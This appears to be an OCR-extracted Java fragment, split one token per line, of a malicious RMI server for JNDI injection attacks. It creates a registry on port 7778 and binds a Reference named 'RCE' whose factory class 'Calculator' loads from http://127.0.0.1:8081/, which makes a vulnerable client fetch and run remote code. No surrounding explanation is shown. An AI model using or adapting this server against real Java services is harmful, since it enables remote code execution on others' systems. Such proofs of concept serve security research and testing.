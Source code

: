 static  
  
void  
  
main  
(  
String  
[]   
args  
)  
  
throws  
  
Exception  
{            
  
          
Registry  
  
registry  
  
=  
  
LocateRegistry  
.  
createRegistry  
(  
7778  
);  
  
          
Reference  
  
reference  
  
=  
  
new  
  
Reference  
(  
"Calculator","Calculator","http://127.0.0.1:8081/"  
);  
  
          
ReferenceWrapper  
  
wrapper  
  
=  
  
new  
  
ReferenceWrapper  
(  
reference  
);  
  
          
registry  
.  
bind  
(  
"RCE",wrapper  
);  
  